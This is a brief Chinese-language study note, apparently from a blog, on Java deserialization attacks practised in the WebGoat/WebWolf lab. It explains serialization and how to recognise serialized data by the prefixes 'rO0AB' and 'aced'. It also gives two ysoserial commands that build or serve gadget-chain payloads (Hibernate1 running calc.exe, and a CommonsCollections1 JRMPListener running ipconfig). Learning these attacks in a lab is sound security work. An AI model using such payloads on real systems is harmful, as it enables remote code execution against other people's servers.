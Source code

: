 ![5EE2y8.png](https://z3.ax1x.com/2021/10/10/5EE2y8.png)

![5EEfeg.png](https://z3.ax1x.com/2021/10/10/5EEfeg.png)

序列化 (Serialization)：将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对

象将其当前状态写入到临时或持久性存储区

反序列化：从存储区中读取该数据，并将其还原为对象的过程，称为反序列化

#### webgoat

网址启动：

`java --add-opens java.base/sun.nio.ch=ALL-UNNAMED --add-opens java.base/java.io=ALL-UNNAMED -Dfile.encoding=UTF-8 -jar webgoat-server-8.2.2.jar [--server.port=8080][--server.address=localhost] [--hsqldb.port=9001]`

后台启动：

`java -Dfile.encoding=UTF-8 -jar webwolf-8.2.2.jar [--server.port=9090][--server.address=localhost] [--hsqldb.port=9001]`

网址：`http://127.0.0.1:8080/WebGoat`

后台：`http://127.0.0.1:9090/WebWolf`

#### JAVAWEB 特征可以作为序列化的标志参考

一段数据以 rO0AB 开头，你基本可以确定这串就是 JAVA 序列化 base64 加密的数据。

或者如果以 aced 开头，那么他就是这一段 java 序列化的 16 进制。

java -Dhibernate5 -cp hibernate-core-5.4.9.Final.jar;ysoserial-master-30099844c6-1.jar ysoserial.GeneratePayload Hibernate1 calc.exe > payload.bin



java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener  41 CommonsCollections1 'ipconfig'

![](https://s4.ax1x.com/2021/12/18/TVPtUI.png)
